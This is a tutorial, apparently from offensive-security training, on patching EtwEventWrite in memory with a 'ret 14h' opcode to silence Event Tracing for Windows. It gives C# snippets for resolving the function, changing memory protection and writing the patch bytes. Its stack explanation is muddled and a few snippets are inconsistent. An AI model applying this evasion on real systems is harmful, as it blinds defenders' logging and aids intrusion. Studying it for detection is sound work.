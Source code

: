 # Patching ETW Tracing Functions

Event Tracing for Windows (ETW) is loaded at the runtime of every new process, commonly originating from the CLR (Common Language Runtime). ETW events are sent from userland and issued directly from the current process. Attackers can patch ETW by writing pre-defined opcodes to an in-memory function, effectively disabling its functionality.

## High-Level Concept of Patching

At its core, patching aims to force an application to return or quit before reaching the function we want to patch. Consider this pseudo-code:

```c
int x = 1;
int y = 3;
return x + y; // Output: 4

int x = 1;
return x;
int y = 3;
return x + y; // Output: 1
```

If a `return` is inserted before the original return, the program will not execute subsequent lines. This leverages the stack's LIFO (Last In First Out) structure: the last item pushed is the first popped out.

> **Diagram:**  
> LIFO structure — items are pushed to the top and popped from the top.

## Applying the Concept to ETW

To patch ETW, we need to identify how the return is called in memory. If we can write a return opcode at the start of the function, it will execute before any other code. The stack's LIFO structure ensures this behavior.

### Identifying Patch Points

From previous research, we know ETW is written from the `EtwEventWrite` function in the CLR. To find patch points, we examine the function's disassembly:

```
779f2459 33cc         xor ecx, esp
779f245b e8501a0100   call ntdll!_security_check_cookie
779f2460 8be5         mov esp, ebp
779f2462 5d           pop ebp
779f2463 c21400       ret 14h
```

The `ret 14h` instruction ends the function and returns to the previous application. According to IA-32 documentation, `ret` pops the last value from the stack, and its parameter (here, `14h`) specifies the number of bytes to release.

To neuter the function, an attacker can write the opcode bytes for `ret 14h` (`c2 14 00`) to memory, patching the function.

> **Diagram:**  
> LIFO structure with assembly — `ret 14h` is pushed to the top and popped out.

## Technical Steps for ETW Patching

ETW patching can be broken down into five steps:

1. **Obtain a handle for `EtwEventWrite`**
2. **Modify memory permissions of the function**
3. **Write opcode bytes to memory**
4. **Reset memory permissions (optional)**
5. **Flush the instruction cache (optional)**

### Step 1: Obtain Function Handle

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

### Step 2: Modify Memory Permissions

```csharp
uint oldProtect;
Win32.VirtualProtect(
    etwFunction, 
    (UIntPtr)patch.Length, 
    0x40, // PAGE_EXECUTE_READWRITE
    out oldProtect
);
```

### Step 3: Write Opcode Bytes

```csharp
byte[] patch = new byte[] { 0xc2, 0x14, 0x00 };
Marshal.Copy(
    patch, 
    0, 
    etwFunction, 
    patch.Length
);
```

### Step 4: Restore Memory Permissions

```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```

### Step 5: Flush Instruction Cache

```csharp
Win32.FlushInstructionCache(
    etwFunction,
    NULL
);
```

These steps can be compiled into a script or session for experimentation.

## Verifying the Patch

After patching, the disassembled function should look like:

```
779f23c0 c21400       ret 14h
779f23c3 00ec         add ah, ch
779f23c5 83e4f8       and esp, 0FFFFFFF8h
779f23c8 81ece0000000 sub esp, 0E0h
```

This matches the LIFO diagram described earlier. Once patched, `EtwEventWrite` will always return immediately when called.

---

> **Note:**  
> While this technique is effective, it may not be suitable for all environments as it could suppress more logs than intended, impacting integrity.

